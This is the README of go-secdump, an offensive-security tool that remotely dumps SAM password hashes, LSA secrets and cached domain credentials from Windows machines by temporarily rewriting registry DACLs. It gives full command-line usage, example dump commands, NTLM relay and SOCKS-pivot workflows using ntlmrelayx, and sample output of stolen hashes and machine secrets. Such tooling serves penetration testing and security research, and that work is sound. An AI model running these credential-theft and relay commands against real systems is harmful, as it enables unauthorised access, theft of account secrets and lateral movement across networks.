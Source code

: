 # go-secdump

## Description
Package go-secdump is a tool built to remotely extract hashes from the SAM
registry hive as well as LSA secrets and cached hashes from the SECURITY hive
without any remote agent and without touching disk.

The tool is built on top of the library [go-smb](https://github.com/jfjallid/go-smb)
and use it to communicate with the Windows Remote Registry to retrieve registry
keys directly from memory.

It was built as a learning experience and as a proof of concept that it should
be possible to remotely retrieve the NT Hashes from the SAM hive and the LSA
secrets as well as domain cached credentials without having to first save the
registry hives to disk and then parse them locally.

The main problem to overcome was that the SAM and SECURITY hives are only
readable by NT AUTHORITY\SYSTEM. However, I noticed that the local group
administrators had the WriteDACL permission on the registry hives and could
thus be used to temporarily grant read access to itself to retrieve the
secrets and then restore the original permissions.

## Credits
Much of the code in this project is inspired/taken from Impacket's secdump
but converted to access the Windows registry remotely and to only access the
required registry keys.

Some of the other sources that have been useful to understanding the registry
structure and encryption methods are listed below: 

https://www.passcape.com/index.php?section=docsys&cmd=details&id=23

http://www.beginningtoseethelight.org/ntsecurity/index.htm

https://social.technet.microsoft.com/Forums/en-US/6e3c4486-f3a1-4d4e-9f5c-bdacdb245cfd/how-are-ntlm-hashes-stored-under-the-v-key-in-the-sam?forum=win10itprogeneral

## Usage
```
Usage: ./go-secdump [options]

options:
      --host <target>       Hostname or ip address of remote server. Must be hostname when using Kerberos
  -P, --port <port>         SMB Port (default 445)
  -d, --domain <domain>     Domain name to use for login
  -u, --user <username>     Username
  -p, --pass <pass>         Password
  -n, --no-pass             Disable password prompt and send no credentials
      --hash <NT Hash>      Hex encoded NT Hash for user password
      --local               Authenticate as a local user instead of domain user
  -k, --kerberos            Use Kerberos authentication. (KRB5CCNAME will be checked on Linux)
      --dc-ip               Optionally specify ip of KDC when using Kerberos authentication
      --target-ip           Optionally specify ip of target when using Kerberos authentication
      --aes-key             Use a hex encoded AES128/256 key for Kerberos authentication
      --dump                Saves the SAM and SECURITY hives to disk and
                            transfers them to the local machine.
      --sam                 Extract secrets from the SAM hive explicitly. Only other explicit targets are included.
      --lsa                 Extract LSA secrets explicitly. Only other explicit targets are included.
      --dcc2                Extract DCC2 caches explicitly. Only ohter explicit targets are included.
      --backup-dacl         Save original DACLs to disk before modification
      --restore-dacl        Restore DACLs using disk backup. Could be useful if automated restore fails.
      --backup-file         Filename for DACL backup (default dacl.backup)
      --relay               Start an SMB listener that will relay incoming
                            NTLM authentications to the remote server and
                            use that connection. NOTE that this forces SMB 2.1
                            without encryption.
      --relay-port <port>   Listening port for relay (default 445)
      --socks-host <target> Establish connection via a SOCKS5 proxy server
      --socks-port <port>   SOCKS5 proxy port (default 1080)
  -t, --timeout             Dial timeout in seconds (default 5)
      --noenc               Disable smb encryption
      --smb2                Force smb 2.1
      --debug               Enable debug logging
      --verbose             Enable verbose logging
  -o, --output              Filename for writing results (default is stdout). Will append to file if it exists.
  -v, --version             Show version
```

## Changing DACLs
go-secdump will automatically try to modify and then restore the DACLs of the
required registry keys. However, if something goes wrong during the restoration
part such as a network disconnect or other interrupt, the remote registry will
be left with the modified DACLs.

Using the `--backup-dacl` argument it is possible to store a serialized copy of
the original DACLs before modification.
If a connectivity problem occurs, the DACLs can later be restored from file
using the `--restore-dacl` argument.

## Examples

Dump all registry secrets

```
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local
or
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --sam --lsa --dcc2
```

Dump only SAM, LSA, or DCC2 cache secrets

```
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --sam
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --lsa
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --dcc2
```

### NTLM Relaying
Dump registry secrets using NTLM relaying

Start listener
```
./go-secdump --host 192.168.0.100 -n --relay
```

Trigger an auth to your machine from a client with administrative access to
192.168.0.100 somehow and then wait for the dumped secrets.

```
YYYY/MM/DD HH:MM:SS smb [Notice] Client connected from 192.168.0.30:49805
YYYY/MM/DD HH:MM:SS smb [Notice] Client (192.168.0.30:49805) successfully authenticated as (domain.local\Administrator) against (192.168.0.100:445)!
Net-NTLMv2 Hash: Administrator::domain.local:34f4533b697afc39:b4dcafebabedd12deadbeeffef1cea36:010100000deadbeef59d13adc22dda0
2023/12/13 14:47:28 [Notice] [+] Signing is NOT required
2023/12/13 14:47:28 [Notice] [+] Login successful as domain.local\Administrator
[*] Dumping local SAM hashes
Name: Administrator
RID: 500
NT: 2727D7906A776A77B34D0430EAACD2C5

Name: Guest
RID: 501
NT: <empty>

Name: DefaultAccount
RID: 503
NT: <empty>

Name: WDAGUtilityAccount
RID: 504
NT: <empty>

[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC: 0x15deadbeef645e75b38a50a52bdb67b4
$MACHINE.ACC:plain_password_hex:47331e26f48208a7807cafeababe267261f79fdc38c740b3bdeadbeef7277d696bcafebabea62bb5247ac63be764401adeadbeef4563cafebabe43692deadbeef03f...
[*] DPAPI_SYSTEM
dpapi_machinekey: 0x8afa12897d53deadbeefbd82593f6df04de9c100
dpapi_userkey: 0x706e1cdea9a8a58cafebabe4a34e23bc5efa8939
[*] NL$KM
NL$KM: 0x53aa4b3d0deadbeef42f01ef138c6a74
[*] Dumping cached domain credentials (domain/username:hash)
DOMAIN.LOCAL/Administrator:$DCC2$10240#Administrator#97070d085deadbeef22cafebabedd1ab
...
```

### SOCKS Proxy
Dump secrets using an upstream SOCKS5 proxy either for pivoting or to take
advantage of Impacket's ntlmrelayx.py SOCKS server functionality.

When using ntlmrelayx.py as the upstream proxy, the provided username must match
that of the authenticated client, but the password can be empty.

```
./ntlmrelayx.py -socks -t 192.168.0.100 -smb2support --no-http-server --no-wcf-server --no-raw-server
...

./go-secdump --host 192.168.0.100 --user Administrator -n --socks-host 127.0.0.1 --socks-port 1080
```
